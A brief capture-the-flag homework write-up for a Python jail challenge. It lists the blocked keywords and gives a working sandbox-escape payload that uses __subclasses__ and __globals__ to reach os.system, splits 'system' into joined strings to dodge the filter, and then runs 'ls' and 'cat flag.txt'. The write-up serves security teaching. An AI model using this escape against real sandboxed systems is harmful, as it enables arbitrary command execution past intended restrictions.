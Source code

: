 # Homework 2-2 Escape the jail of UwU [100 points] (17 solves)
By viewing the source code, keywords include `[`, `]`, `builtins`, `import`, `system`, `os` are blocked. Also, `__builtins__` is removed. Therefore, we need to use other way to use system command and bypass the keyword restriction.
First, We use `__getitem__(1)` to replace the `[]`,

from `"".__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(-4).__init__.__globals__.__getitem__('s' + 'ys' + 'tem')('ls')`, we see a `flag.txt` file. Then, we change a bit to `"".__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(-4).__init__.__globals__.__getitem__('s' + 'ys' + 'tem')('cat flag.txt')` to view the flag file.

## Reference:
https://ctftime.org/writeup/25816
https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes
